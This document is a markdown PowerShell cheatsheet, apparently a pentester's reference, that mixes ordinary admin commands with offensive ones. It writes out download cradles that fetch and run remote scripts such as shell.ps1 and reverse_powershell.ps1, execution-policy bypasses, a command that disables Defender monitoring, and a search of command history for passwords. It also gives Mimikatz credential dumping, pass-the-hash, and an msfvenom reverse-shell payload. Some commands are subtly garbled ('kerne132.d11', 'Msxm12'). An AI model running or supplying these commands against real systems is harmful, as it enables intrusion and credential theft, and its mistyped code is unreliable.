

# Cheatsheet

- [https://pinvoke.net](https://pinvoke.net) - Allowing developers to find, edit and add `PInvoke`[*](https://pinvoke.net/#definePinvoke) signatures, user-defined types, and any other information related to calling Win32 and other unmanaged APIs from managed code (written in languages such as C# or VB.NET).
- An A-Z Index of Windows **PowerShell** commands: [https://ss64.com/ps/](https://ss64.com/ps/)
- Windows **PowerShell** command line syntax: [https://ss64.com/ps/syntax.html](https://ss64.com/ps/syntax.html)

## Help System

- Versin information: `$PSVersionTable`


- `Get-Help Get-Process`
- `help Get-Process`
- `Update-Help`


- `Get-Help remoting`
- `Get-Help about_*remot*`

## Basic Constructs

```
Cmdlets
Function
```

### List all Cmdlets

`Get-Command -CommandTyle Cmdlet`

## Aliases

`Get-Alias -Name ps`
`Get-Alias -Definition Get-Process`

## Check Environment

- `C:\WIndows\Syswow64\Windowspowershell\v1.0\powershell.exe `
  - `PSModulePath`
- Version info: `powershell -v 2.0 -c $psversiontable`
- Language mode: `$host.runspace.languagemode`
- Check if AppLocker is enabled: `Get-AppLockerPolicy -Local`
- Powershell Version: `(Get-Host).Version`

## Download Files
```powershell
powershell wget "http://example.com/abc.txt" -outfile "abc.txt"
```

## Execution Policy

- Not a security feature
- Used to avoid accidental script execution
- Can be bypass with:
  - `powershell -ExecutionPolicy bypass .\example.ps1`
  - `powershell -c <cmd>`
  - `powershell -EncodedCommand <cmd>`
  - `powershell -enc <cmd>`
  - `$env:PSExecutionPolicyPreference="bypass"`

> - Ref https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-6
>
> - 15 ways to bypass PowerShell execution policy: https://www.netspi.com/blog/entryid/238/15-ways-to-bypass-the-powershell-execution-policy 

## Modules

`Import-Module <path_to_module> -verbose`

- List all available modules: `Get-Module -ListAvailable -All`
  - List all modules available in: `$env:PSModulePath` 
- All functions exposed by a module: `Get-Command -Module <module_name>`

## Remote Script execution

- `Invoke-Expression (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `iex (New-Object Net.WebClient).DownloadString('http://example.com/example.ps1');`
- `powershell -EncodedCommand <Base64EncodedCommand>`

```powershell
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.2/shell.ps1')
```
_/B prevents creation of a new window_

- Craft Download Cradles: https://github.com/danielbohannon/Invoke-CradleCrafter

More Download Cradles

- `$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://example.com/example.ps1');sleep 5;$resp=$ie.Document.Body.innerHTML;$ie.quit();iex $resp`
- `iex (iwr 'http://example.com/example.ps1')`
- `$h=New-Object -ComObject Msxm12.XMLHTTP;$h.open('GET', 'http://192.168.230.1/evil.psi1' ,$false);$h.send();iex $h. responseText`
- 
```powershell
$wr [System.NET.WebRequest]::Create("http://192.168.230.1/evil.psi")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())) .ReadToEnd()```
```

## Command History (PSReadline)

```
cat (Get-PSReadlineOption).HistorySavePath | sls password
```
By default, the path is:
```
profile:\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

## Powershell Remoting

- Enabled by default from Windows Server 2012
  - `Enable-PSRemoting -Force`
- Admin privileges are required to connect
- `Get-Command -CommandType cmdlet -ParameterName computername`
- `Get-Command -CommandType cmdlet | Where-Object {$_Parameters.Keys --contains 'ComputerName' -and $_Parameters.Keys --contains 'Credential' -and $_Parameters.Keys --notcontains 'Session'}`

### WSMAN (WebServicesManagement) Protocol (WinRM)

- WinRM is Microsoft’s implementation of WSMAN 
- Port 5985, 5986
- If target is in a workgroup, attacker's machine should trust target machine to send out credentials: 
  - Set-Item  WSMan:\localhost\client\trustedhosts -Value *
- `Invoke-Command -ScriptBlock {$env:ComputerName} -ComputerName example -Credential dominName/userName `
  - `-FilePath`

```
Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c Get-Process"} - ComputerName domainpc –Credential 
```

```
Invoke-WSManAction -Action Create -ResourceURI wmicimv2/win32_process -ValueSet @{commandline="powershell.exe -c iex ((New-Object Net.Webclient).DownloadString('http://192.168.254. 1/reverse_powershell.ps1'))"} -ComputerName domainpc
```

## WSMAN vs PowerShell Remoting vs WMI

WSMAN

- Firewall friendly 
- Use HTTP and HTTPS ports 
- Syntax is complex 
- Returns immutable objects 
- Can be used with non-Windows machines 

Powershell Remoting 

-  Firewall friendly
- Easy use 
- Returns immutable objects 

WMI 

- Not firewall friendly
- Not NAT friendly
- Complex 
- Returns editable objects 

### One to One

- `Invoke-Command` is stateless for stageful operations use `PSSession`
  - Interactive, stateful session
  - Run in a new process `wsmprovhost`
- New-PSSession
  - `$ses = New-PSSession -ComputerName <name> -Credential <cred>`
  - `Get-PSSession`
  - `Enter-PSSession`

Define a function in a remote machine and call it: 

```
Invoke-Command -ScriptBlock {function Example1 {whoami;}} -Session $ses
Invoke-Command -ScriptBlock {Example1} -Session $ses
PSSession -CommandName Example1 -Session $ses
```

Export a command from a remote machine:

```
Export-PSSession -Module <name> -CommandName Example1 -Session $ses 
```

Double Hop Problem (Attacker delegate sending token to target-2 from target-1)



```
Enable-WSManCredSSP -Role Client -DelegateComputer 
Enable-WSManCredSSP -Role Server
Get-WSManCredSSP

Enter-PSSession -ComputerName <name> -Credential <cred> -Authentication CredSSP
```


### Useful cmdlets

New-PSSession
Enter-PSSession

```
Set-MpPreference -DisableRealtimeMonitoring $true
New-PSSession -ComputerName instance

$sess = New-PSSession -ComputerName instance
Enter-PSSEssion - Session $sess
```
### One to Many (Fan-out Remoting)

- Non-interactive
- Parallel command execution
- Can execute scripts from files
- Usable to perform command execution without dropping exe onto disk
- Useful for passing and replying hashes, tickets and other AD attacks

Run commands:
```
Invoke-Command -ScriptBlock{whoami;hostname} -ComputerName instance
```

Run scripts:
```
Invoke-Command -FilePath example.ps1 -ComputerName instance
```

Run functions installed on the remote box:
```
Invoke-Command -ScriptBlock ${function:Invoke-Mimikatz} -ComputerName instance
```

Stateful commands:
```
$sess = New-PSSession -ComputerName instance
Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

Mimikatz (ReflectivePEInjection is used to load into memory)
```
Invoke-Mimikatz -DumpCreds
Invoke-Mimikatz -DumpCerts
```

Pass the Hash
```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:<name_of_the_user> /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator  /domain:. /ntlm:<ntlmhash> /run:powershell.exe"'
```

Dump Creds from multiple machines
```
Invoke-Mimikatz -DumpCreds -ComputerName @("instance1", "instance2")
```

## Load PowerUp

```
powershell -ExecutionPolicy Bypass
Import-Module ./PowerUp.ps1
Invoke-AllChecks
```

## Active Directory

- [ADSI]

  - Get member of the domain admin group

    ```
    ([ADSI]"LDAP://cn=Domain Admin,cn=Users,dc=Example,dc=com").Members
    ```

  - Get memberships of a user

    ```
    ([ADSI]"LDAP://cn=Administrator,cn=Users,dc=Example,dc=com").MemberOf
    ```

- .NET Class: `System.DirectoryServices.ActiveDirectory`

- Native Executable

- WMI

## System Information

- `Get-HotFix`

## Jobs 

```
Start-Job -ScriptBlock {whoami}
Start-Job -FilePath <path>

Get-Job | Receive-Job
Get-Job -id <id> | Receive-Job
Remove-Job
```
```
Get-Command -ParameterName AsJob
```

Run job on a remote machine using `PSSession` or by using `-AsJob` with `-ComputerName`. With `-AsJob` it's possible to see remote jobs using `Get-Job`.

## .Net

#### Exploring Assemblies 

Finding assemblies 

```
$Classes = [AppDomain]::CurrentDomain.GetAssemblies()
$Classes = [AppDomain]::CurrentDomain.GetAssemblies() | ForEach-Object {$_.GetTypes()} | Where-Object {$_.IsPublic -eq "True"}
```

Working with assemblies and invoking functions 

```
$ProcClass = $Classes | Where-Object {$_.Name -eq "Proccess"}
$ProcClass | Get-Members
$ProcClass | Get-Members -MemberType Method -Static
$ProcClass.GetMethods()
$ProcClass::GetCurrentProcess()
$ProcClass.FullName

[System.Diagnostic.Process]::GetCurrentProcess()

[System.Diagnostic.Process] | Get-Members -MemberType Method -Static | Format-List *
```

```
Add-Type -AssemblyName System.Windows.Forms
[System.Windows.Forms.Sendkeys]
```

#### AssemblyName

```
Add-Type -AssemblyName System.ServiceProcess 
[System.ServiceProcess.ServiceController] | Get-Members -MemberType Method -Static | Format-List *
[System.ServiceProcess.ServiceController]::GetDevices()
```

#### TypeDefinition

```
$DotnetCode = @"
public class SysCommands

public static void lookup (string domainname) {
  System. Diagnostics.Process.Start("ns lookup.exe", domainname) ;
}

public void netcmd (string cmd) {
 string cmdstring = "/k net.exe " + cmd;
 System. Diagnostics.Process.Start("cmd. exe" ,cmdstring) ;
}

public static void Main() {
  string cmdstring = "/k net.exe " + "user";
  System. Diagnostics.Process.Start("cmd. exe",cmdstring);
}
"@

# Compile .Net code and load objects from it
Add-Type -TypeDefinition $DotnetCode -OutputType Library -OutputAssembly SysCommand.dll
Add-Type -TypeDefinition $DotnetCode -OutputType ConsoleApplication -OutputAssembly SysCommand.exe
[SysCommand]::lookup("google.com")

# Load objects from a DLL into Memory
$obj = Add-Type -Path SysCommand.dll -PassThru
$obj | Get-Members
[SysCommand]::lookup("google.com")

# Calling non-static functions
$obj = New-Object SysCommands
$obj .netcmd("user")#>

```

#### MemberDefinition - DLL Import

```
$Apicode = @"

[DllImport("kerne132.d11")]
public static extern bool CreateSymbolicLink(string IpSymlinkFileName, string IpTargetFileName, int dwFlags);

"@

$SymLink = Add-Type -MemberDefinition $ApiCode -Name Symlink -Namespace CreatSymLink -PassThru
$SymLink::CreateSymbolicLink('C:\test\link', 'C:\Users\', 1)
```

## WMI

Exploring namespaces 

```
Get-WmiObject -Namespace "root" -Class "__Namespace" | select name
```

List even the nested namespaces - 

[http://www.powershellmagazine.com/2013/10/18/pstip-list-all-wmi-namespaces-on-a-system/](http://www.powershellmagazine.com/2013/10/18/pstip-list-all-wmi-namespaces-on-a-system/ ) 

Exploring Classes

```
Get-WmiObject –NameSpace “<namespace>” –List 
```

Exploring Methods
```
Get-WmiObject -Class <class> -List | Select-Object -ExpandProperty Methods
```

Filter based on properties of objects getting returned 
```
Get-WmiObject -Class Win32_Process -Filter (Name = "powershell.exe")
Get-WmiObject -Class Win32_Process | Where-Object {$_.Name -eq "powershell.exe"}
Get-WmiObject -Query {Select * from Win32_Process where Name = "powershell.exe"}
```

```
Remove-WmiObject
```

```
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe"
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" - ComputerName <name> -Credential <cred>  
```

## COM Objects 

Explore available COM objects:

 ```
Get-ChildItem REGISTRY::HKEY_CLASSES_ROOT\CLSID -include PROGID -recurse | foreach {$_.GetValue("")} | Where-Object {$_ -match “<appname>"}
 ```

```
$wscript = New-Object -ComObject WScript.Shell.1
$wscript | Get-Member
$wscript.CurrentDirectory
$wscript.SendKeys("Hello")
$wscript.Exec("cmd")
$wscript.CreateShortcut(...)
```

Interesting COM Objects 

- WScript.Shell.1
- Shell.Applcation.1   

## Windows Registry 

```
Get-Item 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version' 
Get-ChildItem 'HKLM:\SOFTWARE\Microsoft\Windows NT\Current Version' -Recurse
```
```
Get-Provider -PSProvider Registry 
```

Due to above provider it's possible to use registry as filesystem.

```
Set-Location Registry::
> ls
> cd HKLM
> ls

New-PSDrive -name RegistryDrive -PSProvider Registry -Root Registry::
> dir 

Get-PSDrive 
```

```
New-Item -Path HKCU:\Test\New
New-ItemProperty -Path HKCU:\Test\New -Name Reg2 -PropertyType String -Value 2 
Rename-Item HKCU:\Test -NewName HKCU:TestNew
Rename-ItemProperty HKCU:\Test\New -Name Reg2 -NewName Reg3
Set-ItemProperty -Path HKCU:\Test\New -Name Reg2 -Value 3 
```

## Recon 

- Directory search:`Get-HttpStatus`

## Client Side Attacks 

- Out-Word
- Out-Excel
- Out-CHM
- Out-Shortcut 
- Out-HTA
- Out-Java 

## Encoding 

- `Invole-Encode -DataToEncode example.ps1 -OutCommand `
  - `Out-CHM -Payload "-e <encodedValue>"`

## Metasploit

- Using Powershell with Metasploit: [https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Powershell-in-an-exploit](https://github.com/rapid7/metasploit-framework/wiki/How-to-use-Powershell-in-an-exploit)

```
msfvenom meterpreter
./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<IP> -f psh-reflection

cmd/windows/reverse_powershell
```

Useful modules:

- exploit/windows/smb/psexec_psh
  - Payload is encoded 
- exploit/windows/local/powershell_cmd_upgrade
  - Upgrade native to Powershell
- post/windows/manage/powershell/exec_powershell 
- exploit/multi/script/web_delivery 

## Pass the Hash with Powershell 

```
.\wce.exe –s <Administrator:.:hashes> -c PowerShell.exe
      
Invoke-Mimikatz -Command "'"sekurlsa::pth /user:Administrator /domain:. /ntlm:<ntlmhash> /run:powershell.exe'""
```

http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html

## Persistence 

- WMI permanent event consumers 
- Windows registry 
- Scheduled tasks 

## Restricting Powershell

- http://www.darkoperator.com/blog/2013/3/21/powershell-basics-execution-policy-and-code-signing-part-2.html

- Process tracking and Module logging. 

- ACL, Software Restriction Policies (SRP) and Application Control Policies (Applocker) could be used to control PowerShell. 									 										

  - Both aresupported by GPO, your mileage may vary according to your implementation preferences. 

  - __PSLockDownPolicy (v3 only)

- Just Enough Admin – Restrict Administrative Rights - http://blogs.technet.com/b/privatecloud/archive/2014/05/14/just-enough-administration-step-by-step.aspx 

- Auditing, Base lining and Incident Management 

  - PoshSec - https://github.com/PoshSec 
  - Kansa - https://github.com/davehull/Kansa 
  - Voyeur - https://github.com/silverhack/voyeur/ 
  - Using Virus Total API - https://github.com/darkoperator/Posh-VirusTotal 

- Bypassing Applocker Policies - http://www.sixdub.net/2014/12/02/inexorable-powershell-a-red-teamers-tale-of-overcoming-simple-applocker-policies/ 

- https://github.com/Veil-Framework/PowerTools/tree/master/PowerPick 

- Investigating PowerShell attacks https://www.defcon.org/images/defcon-22/dc-22-presentations/Kazanciyan-Hastings/DEFCON-22-Ryan-Kazanciyan-Matt-Hastings-Investigating-Powershell-Attacks-UPDATED.pdf 


## Permissions 

```
icacls "C:\Program Files (x86)\Program Folder"
```

```
OI This folder and files
CI This folder and subfolders
IO The ACE does not apply to the current file/directory.

No output message: This folder only 
(IO)(CI) This folder, subfolders and files
(OI)(CI)(IO) Subfolders and files only
(CI)(IO) Subfolders only
(OI)(IO) Files only
```


[https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490872(v=technet.10)](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-xp/bb490872(v=technet.10))

## Powershell with HID 

- https://github.com/samratashok/Kautilya/
- http://www.labofapenetrationtester.com/search/label/Kautilya 
- http://www.irongeek.com/i.php?page=security/plug-and-prey-malicious-usb-devices 


https://github.com/subTee/CVE-2014-4113/blob/master/Invoke-SystemShell.ps1

http://www.labofapenetrationtester.com/2014/12/using-nishang-with-cobalt-strike.html

http://blog.cobaltstrike.com/2014/09/23/cobalt-strike-2-1-i-have-the-powershell/	